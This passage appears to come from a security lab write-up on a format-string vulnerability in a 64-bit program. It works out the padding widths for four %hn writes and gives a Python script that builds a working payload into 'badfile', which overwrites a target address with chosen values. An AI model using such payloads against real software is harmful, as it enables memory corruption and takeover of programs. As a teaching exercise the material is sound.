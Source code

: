 The values written are cumulative, so when constructing our string, we have to start with the addresses that will store lower values.

For this task, I need to determine the total number of characters I would need to print for each precision modifier.
- 0xAAAA = 43690
- 0xBBBB = 48059
- 0xCCCC = 52428
- 0xDDDD = 56797
- The offset is 34; the string will start with the four format specifiers for the four addresses we want to write into
  - 34 + 4 = 38
  - however, we have to take into consideration that we are dealing with a 64-bit program. This means each address is 8-bytes and we have to format our specifiers in such a way that they take up 8-bytes of memory space
  - This leads us to 34 + 4 * 2 = 42
- Now we have to determine the %x specifier that will be used for the addresses. The lowest number is 0xAAAA, so this will start.
  - 0xAAAA = 43690
- The next address will store a higher value which is 0xBBBB.
  - 0xBBBB - 0xAAAA = 4369
- The next address will store a higher value which is 0xCCCC.
  - 0xCCCC - 0xBBBB = 4369
- The next address will store a higher value which is 0xDDDD.
  - 0xDDDD - 0xCCCC = 4369

```python
#!/usr/bin/python3
import sys

#target = 0x0000555555558010
t1      = 0x0000555555558016    # <-- 0xAAAA
t2      = 0x0000555555558014    # <-- 0xBBBB
t3      = 0x0000555555558012    # <-- 0xCCCC
t4      = 0x0000555555558010    # <-- 0xDDDD

# Create format string
# I pad zeros to keep the lenght at 16-bytes
content  = ("%.0043690x%42$hn").encode('latin-1')    # <-- 0xAAAA
content += ("%.0004369x%43$hn").encode('latin-1')    # <-- 0xBBBB
content += ("%.0004369x%44$hn").encode('latin-1')    # <-- 0xCCCC
content += ("%.0004369x%45$hn").encode('latin-1')    # <-- 0xDDDD

content += (t1).to_bytes(8,byteorder='little')
content += (t2).to_bytes(8,byteorder='little')
content += (t3).to_bytes(8,byteorder='little')
content += (t4).to_bytes(8,byteorder='little')

# Append a newline
content += ("\n").encode('latin-1')


# Write the content to badfile
with open('badfile', 'wb') as f:
  print(f"writing {len(content)} bytes to badfile...")
  f.write(content)
```
